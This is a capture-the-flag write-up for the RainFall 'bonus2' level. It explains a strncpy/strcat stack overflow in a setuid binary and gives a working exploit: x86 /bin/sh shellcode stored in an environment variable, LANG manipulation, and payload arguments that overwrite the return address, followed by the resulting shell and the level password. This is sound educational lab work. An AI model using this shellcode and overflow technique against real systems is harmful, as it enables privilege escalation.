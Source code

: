 # Bonus2

## Solution

* There is one file in our home, ```bonus2```, belonging to ```bonus3``` user, with suid.
* Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

* For the sake of clarity, we won't display the very long disassembled code, but we will describe its behaviour:

	* ```main``` function returns ```1``` if there are not exactly two parameters passed to the program
	* it allocates on its stack a ```0x4c``` bytes buffer
	* the content of ```argv[1]``` is copied using ```strncpy``` with a limit of ```0x28 = 40``` bytes
	* the content of ```argv[2]``` is copied using ```strncpy``` at the offset ```0x28 = 40``` bytes, with a limit of ```0x20 = 32``` bytes
	* ```getenv``` gets the value of environment variable ```LANG``` :
		* if the string starts with ```fi```: global variable ```language``` is set to 1
		* if it starts with ```nl```: global variable ```language``` is set to 2
		* else, it keeps ```0``` value
	* ```greetuser``` function is then called
	* ```greetuser``` allocates on its stack a ```0x40 = 64``` bytes buffer
	* depending on the value of ```language```, it fills the buffer with:
		*  ```Hyvää päivää ``` if ```language``` is equal to ```1```
		* ```Goedemiddag! ``` if ```language``` is equal to ```2```
		* ```Hello ``` if ```language``` is equal to ```0```
	* it then concatenates this buffer with the buffer allocated in ```main``` stackframe

* What we did with all of that:

	* our goal was to use the buffer allocated in ```greetuser``` to write an address of a shellcode in place of the former ```eip``` address
	* the offset between the beginning of the buffer and the location of former ```eip``` address is ```0x4c = 76``` bytes : it means that we want to write the address of our shellcode ```76``` bytes after the beginning of the buf
	* as ```argv[1]``` is copied in the ```main``` buffer using ```strncpy```, if there is no ```\0``` in the first ```40``` bytes, the copy won't be terminated
	* we used it to concatenate ```argv[1]``` with ```argv[2]```, allowing us to store a string up to ```40 + 32 = 72``` bytes
	* before launching the program we made two modifications in the environment :
		* ```export LANG=fi``` so that the string used to greet user would be ```Hyvää päivää ``` (```18``` bytes as ```ä``` is ```2``` bytes)
		* ```export SHELLCODE=`python -c "print('\x90' * 1024 + '\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x0b\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\xcd\x80')"` ``` to store the shellcode the environment
	* we then used the same program used in ```bonus0``` to get an approximative address of ```SHELLCODE```:
	```
	bonus2@RainFall:~$ /var/crash/env SHELLCODE
	SHELLCODE: 0xbffff4d0
	```
	* then we could exploit the vulnerability of ```bonus2``` file:
	```
	bonus2@RainFall:~$ ./bonus2 `python -c "print('A' * 40)"` `python -c "print('B' * 18 + 'd0f4ffbf'.decode('hex'))"`
	Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBB����
	$ cd ../bonus3; cat .pass
	71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
	```
	* we used a total of ```58``` padding chars as ```18 (bytes of the finnish greeting) + 58 = 76``` (offset between beginning of the buffer and former ```eip``` address location)
